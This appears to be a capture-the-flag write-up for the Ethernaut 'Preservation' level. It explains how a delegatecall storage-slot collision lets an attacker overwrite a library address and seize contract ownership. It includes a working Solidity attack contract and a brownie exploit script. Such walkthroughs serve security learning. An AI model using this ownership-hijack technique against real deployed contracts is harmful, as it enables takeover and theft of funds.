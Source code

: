 # Preservation 
This levels requires you to know about storage in smart contracts as in privacy level and to know delegation attack as in delegation level.

## Steps:
1. Deploy malicious contract that has the same storage layout as the Preservation contract.
2. Change `timeZone1Library` address to that of a malicious contract by the use of the delegation call.
3. Call `setFirstTime` function with any attribute.

#### Step 1:
You should deploy a contract with same storage layout as the Preservation contract  and having the function `setTime`.
Inside this function is were you would take ownership of the contract by this statement `owner = tx.origin`.

Here's the code of the contract:
````solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Attack{
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 
    uint storedTime;

    function setTime(uint _time) public{
        owner = tx.origin;
    }

}
````
#### Step 2&3:
In this step you should abuse the delegation call to change the address of `timeZone1Library`.The delegated called contract has one variable which is in slot one,so the delegate call will change that of `timeZone1Library` not storedTime.So we can just call the function `setFirstTime()`
and pass the address of the deployed malicious contract casted to uint.
This steps is done in console or brownie.

here is the code used:
```python
def exploit():
    # Get account address you can see first CTFs for complete code 
    account = get_account()
    # Get contract ABI
    preservation = interface.Preservation(config['Address'])
    #first call
    preservation.setFirstTime(int('0xD953221A4B2AAFF90B865aB281FE197661AE6d88',16),{"from": account})
    #second call (the parameter is not important)
    preservation.setFirstTime(int('0xD953221A4B2AAFF90B865aB281FE197661AE6d88',16), {"from": account})

```
